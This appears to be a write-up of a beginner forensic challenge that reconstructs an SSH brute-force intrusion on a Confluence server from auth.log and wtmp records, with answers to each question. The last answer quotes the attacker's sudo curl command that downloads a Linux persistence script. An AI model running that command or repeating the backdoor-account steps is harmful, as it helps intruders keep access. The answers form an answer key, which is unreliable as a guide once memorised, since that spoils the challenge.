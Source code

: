 

##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.


Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

A: cyberjunkie

In the same file, a little bit below we can see that a new user is created 
Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

A: T1136.001

Q7: What time did the attacker's first SSH session end according to auth.log?

A: 2024-03-06 06:37:24

Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
